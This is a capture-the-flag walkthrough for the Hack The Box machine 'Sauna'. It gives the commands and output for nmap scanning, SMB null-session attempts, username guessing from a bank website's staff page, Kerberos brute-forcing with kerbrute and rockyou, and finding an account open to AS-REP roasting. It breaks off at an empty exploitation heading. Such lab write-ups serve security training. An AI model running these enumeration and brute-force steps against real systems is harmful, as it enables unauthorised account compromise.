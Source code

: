 # Sauna

* **Level**: Easy
* **Operating System**: Windows

<br />

Start off with a detailed nmap scan
```
nmap -sC -sV -Pn -p- 10.10.10.175


PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
| fingerprint-strings:
|   DNSVersionBindReqTCP:
|     version
|_    bind
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-02-16 10:59:13Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Defaul>
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Defaul>
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  msrpc         Microsoft Windows RPC
64562/tcp open  msrpc         Microsoft Windows RPC

1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerpri>
SF-Port53-TCP:V=7.70%I=7%D=2/15%Time=5E48AFB1%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 8h01m24s, deviation: 0s, median: 8h01m24s
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2020-02-16 06:01:33
|_  start_date: N/A

```

<br />

Quite a few ports open.  Notice that we got the domain name, EGOTISTICAL-BANK.LOCAL.  We might need this later.  Let's start with the low hanging fruit and see if we can connect via SMB:
```
smbclient -L //10.10.10.175/ -U ""
smbclient -L //10.10.10.175/ -U "guest"%
```

<br />

Both of these attempts failed, so we cannot authenticate with a null session or guest account.   Let's try gather more information with enum4linux: 
```
enum4linux -A 10.10.10.172
```

<br />

Still did not get anything worthwhile.  Lets take a look at what the webserver is hosting:
```
http://10.10.10.175/
```
![website]()


<br />

Looks like a banking website.  I checked all of the links and found a page containing potential usernames:
```
http://10.10.10.175/about.html
```
![team]()

<br />

I compiled these usernames into a list using a [guide on active directory naming conventions](https://activedirectorypro.com/active-directory-user-naming-convention/), which breaks down three ways to organize names:
	1. Complete first name plus last name
	2. Initial of first name and complete last name 
	3. First three characters of the first name and first three of last name

I did each of these options with and without periods separating the first and last name.   So for Fergus Smith, his options looked like this 

	1. Fergus.Smith
	2. FergusSmith
	3. F.Smith
	4. Fsmith
	5. FerSmi
	6. Fer.Smi

Now do that for all six people.

Just to be sure that I did not miss any usernames, I used Cewl to scrape the website for potential usernames and passwords:
```
cewl -d 2 -m 5 -w cewl.txt http://10.10.10.175/index.html
```

<br />

Now I combined the cewl list with the user list that I made into a users.txt file.  Since port 88 is open, we know that this machine is running kerberos.  Therefore, we can try to brute-force kerberos authentication.  Kerberos pre-authentication failure is not logged in Active Directory with a normal Logon failure event (4625), but rather with specific logs to Kerberos pre-authentication failure (4771).  This will also verify if any usernames in our list are correct and if any of those accounts do not require pre-authentication, which can be useful to perform an [ASREPRoast attack](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/).

When  [pre-authentication is not enforced](https://social.technet.microsoft.com/wiki/contents/articles/23559.kerberos-pre-authentication-why-it-should-not-be-disabled.aspx), a malicious attacker can directly send a dummy request for authentication. The Kerberos Distribution Center will return an encrypted Ticket Granting Ticket containing a session  key encrypted with the user's password hash which the attacker can brute force it offline.

To brute force Kerberos, we use [kerbrute](https://github.com/TarlogicSecurity/kerbrute).  We will use the file with the usernames that  and a passwords file (rockyou.txt).  Using that file let's try to use kerbrute to bruteforce and enumerate valid Active Directory accounts through Kerberos Pre-Authentication: 
```
python /opt/kerbrute.py -domain EGOTISTICAL-BANK.LOCAL -dc-ip 10.10.10.175 -users users.txt -passwords /usr/share/wordlists/rockyou.txt -outputfile sauna_passwords.txt

[*] Valid user => sauna
[*] Valid user => FSmith [NOT PREAUTH]
```
Looks like user FSmith does not require pre-authentication.  Now we can send an AS_REQ request to the KDC on behalf of FSmith, and receive an [AS_REP message](https://www.tarlogic.com/en/blog/how-kerberos-works/). This last kind of message should contain a chunk of data encrypted with the original user key, derived from its password. Then, by using this message, the user password can be cracked offline.

<br />

### Exploitation





